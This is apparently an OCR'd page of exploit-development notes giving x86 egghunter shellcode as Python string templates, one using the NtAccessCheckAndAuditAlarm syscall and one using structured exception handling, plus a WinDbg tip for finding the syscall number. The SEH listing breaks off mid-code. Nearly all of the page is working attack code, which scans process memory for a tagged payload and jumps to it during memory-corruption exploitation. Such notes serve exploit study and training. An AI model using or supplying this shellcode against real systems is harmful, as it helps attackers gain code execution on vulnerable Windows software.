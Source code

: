 ### NTAccess Egghunting
```
CODE = (

            "							 "
            "	loop_inc_page:			 "
            "		or dx, 0x0fff		;"
            "	loop_inc_one:			 "
            "		inc edx				;"
            "	loop_check:				 "
            "		push edx			;"
            f"		push 0x{ntaccess} 			;"
            "		pop eax				;"
            "		int 0x2e			;"
            "		cmp al,05			;"
            "		pop edx				;"
            "	loop_check_valid:		 "
            "		je loop_inc_page	;"
            "	is_egg:					 "
            f"		mov eax, 0x{egg_little_endian}	;"
            "		mov edi, edx		;"
            "		scasd				;"
            "		jnz loop_inc_one	;"
            "		scasd				;"
            "		jnz loop_inc_one	;"
            "	matched:				 "
            "		jmp edi				;"
        )
```
You can get the `NTAccess` syscall number as the following from `Windbg`:
- `u ntdll!NtAccessCheckAndAuditAlarm`:
![42b385e6163d202e469b27208fce53c4.png](:/2b10b1d2d9894e929000ba32e9fd04b6)
### SEH Egghunting
```
CODE = (
            "	start: 									 "
            "		jmp get_seh_address 				;"
            "	build_exception_record: 				 "
            "		pop ecx 							;"
            f"		mov eax, 0x{egg_little_endian}			;"
            "		push ecx 							;"
            "		push 0xffffffff 					;"
            "		xor ebx, ebx 						;"
            "		mov dword ptr fs:[ebx], esp 		;"
            "	is_egg: 								 "
            "		push 0x02 							;"
            "		pop ecx 							;"
            "		mov edi, ebx 						;"
            "		repe scasd 							;"
            "		jnz loop_inc_one 					;"
            "		jmp edi 							;"
            "	loop_inc_page: 							 "
            "		or bx, 0xfff 						;"
            "	loop_inc_one: 							 "
            "		inc ebx 							;"
            "		jmp is_egg 							;"
            "	get_seh_address: 						 "
            "		call build_exception_record 		;"
            "		push 0x0c 							;"
            "		pop ecx 							;"
            "		mov eax, [esp+ecx] 					;"
            "		mov cl, 0xb8						;"
```